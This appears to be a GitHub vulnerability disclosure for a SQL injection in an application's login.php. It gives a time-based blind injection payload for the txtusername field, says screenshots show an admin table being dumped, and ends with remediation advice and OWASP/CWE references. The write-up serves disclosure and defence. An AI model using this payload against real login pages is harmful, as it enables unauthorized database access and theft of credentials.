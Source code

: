 #### 3. Attack Payload Examples: 
```
sql: txtusername=test ' AND (SELECT 1824 FROM (SELECT(SLEEP(5)))nyKW) AND 'amlx'='amLx&txtpassword=test
```
<img width="734" alt="cve_1" src="https://github.com/user-attachments/assets/eda43d16-b6af-4cdb-8e6b-6c773dd2d13f" />

### Code Scan:

This vulnerability found by (https://github.com/cybersharmaji)

code scan found that there is no input validation or escaping in login.php file.

![image](https://github.com/user-attachments/assets/b9fafaac-fe77-4c76-a638-61727dd2dff3)

### Proof of Concept:
---
#### Information extraction
```
txtusername=test ' AND (SELECT 1824 FROM (SELECT(SLEEP(5)))nyKW) AND 'amlx'='amLx&txtpassword=test
```
##### txtusername is injectable!
<img width="769" alt="cve_0" src="https://github.com/user-attachments/assets/5a0d464d-0ade-4a99-ae26-82de3e3785c0" />

##### Databases information extracted
<img width="897" alt="cve_2" src="https://github.com/user-attachments/assets/25bbfe4f-2898-49cc-8e62-adb120edf3f2" />

##### Tables information extracted
<img width="890" alt="cve_3" src="https://github.com/user-attachments/assets/5e2b27e9-c193-4d82-aac3-a6b81684bcfb" />

##### Table=admin data dumped!
<img width="862" alt="cve_5" src="https://github.com/user-attachments/assets/58614a56-a0ef-4755-942d-025a408c7648" />

### Suggested Remediation:
---
- Implement Prepared Statements
- Input Validation
- Security Recommendations
  - Implement principle of least privilege
  - Encrypt sensitive data storage
  - Implement WAF protection
  - Conduct regular security audits
  - Use ORM frameworks for database operations

### Additional Information:
---
- Refer to OWASP SQL Injection Prevention Guide
- Consider using modern frameworks like MyBatis or Hibernate
- Implement logging and monitoring mechanisms
- References:
 - OWASP SQL Injection Prevention Cheat Sheet
 - CWE-89: SQL Injection
 - CERT Oracle Secure Coding Standard for Java
